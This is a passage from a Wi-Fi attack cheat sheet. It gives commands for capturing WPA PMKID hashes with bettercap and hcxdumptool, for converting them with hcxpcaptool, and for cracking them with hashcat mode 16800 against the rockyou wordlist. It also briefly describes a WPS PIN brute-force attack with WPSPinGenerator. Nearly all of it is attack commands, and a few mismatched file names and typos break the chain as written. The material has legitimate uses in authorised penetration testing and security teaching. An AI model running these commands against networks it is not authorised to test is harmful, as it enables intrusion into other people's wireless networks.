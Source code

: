 #### Via Bettercap

The results will be exported on a pcap file.

```text
bettercap -iface <IFACE>

iface >> wifi.recon on
iface >> wifi.show

iface >> wifi.assoc all
```

#### Via hcxdumptool

Same as bettercap, the results will be exported on a pcap file.

```text
hcxdumptool -i <IFACE> -o <OUT_FILE> --enable_status=1
```

#### Export results fo hashcat && Cr4ck it!

Using `hcxpcaptool` we can easily transform the output of bettercap or hcxdumptool to hashcat.

```text
hcxpcaptool -z hashes.hash Capture.pcap

hashcat -m 16800 -d 1 -w 3 hashesh.hash /usr/share/wordslist/rockyou.txt
```

### WPS Attack

Wifi Protected Setup aka WPS is a wireless network security standard that tries to make connections between a router and devices faster and easier.

`WPSPinGenerator` is an automatic tool available in `Wifislax`.

First we need to choose the interface to work with and the channels where we want to listen. We can see the generic PINS if they are available on the network by selection the suitable SSID.

Finally we just need to test the PIN and wait for success. Noticed that after 3 fail attempts the WPS could lock.


